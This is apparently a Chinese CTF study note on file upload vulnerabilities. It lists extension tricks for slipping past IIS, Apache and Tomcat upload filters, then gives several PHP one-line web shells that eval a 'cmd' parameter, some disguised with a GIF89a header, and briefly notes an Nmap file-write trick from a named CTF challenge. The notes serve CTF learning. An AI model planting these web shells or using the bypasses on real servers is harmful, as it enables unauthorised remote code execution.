 ```yaml
---
title: 文件上传漏洞
date: 2024-10-10 15:35:50
tags: CTF
categories: CTF-Web
---
```


## 4.文件上传漏洞

### 1. 绕过思路

```php+HTML
【IIS】
ASP：asa、cer、cdx
ASPX：ashx、asmx、ascx、esms、asp,aspx,asa,asax,ascx,ashx,asmx,cer,aSp,aSpx,aSa,aSax,aScx,aShx,aSmx,cEr
【Apache】
PHP：php4、php5、phtml、php,php5,php4,php3,php2,pHp,pHp5,pHp4,pHp3,pHp2,html,htm,phtml,pht,Html,Htm,pHtml
[tomcat]
JSP：jspx、jspf、jsp,jspa,jspx,jsw,jsv,jspf,jtml,jSp,jSpx,jSpa,jSw,jSv,jSpf,jHtml

复写绕过:pphphp


```



## 5.一句话木马

### PHP

 方便绕过开头可以加上GIF89a gif的文件头

1. ```
   GIF89a
   
   <?php @eval($_POST[cmd]); ?>
   如果有长度限制
   <?php eval($_GET[cmd]);
   ```

   ```
   GIF89a
   <script language="php">
   @eval($_POST['cmd']);phpinfo();
   </script>
   ```

   

2. 

```
<script language="php">@eval_r($_POST[cmd])</script>
```

3.[网鼎杯 2020 朱雀组]Nmap 1

Namp -oG将内容写入文件

短标签<?php?> 可以用<?=?>代替

```php
```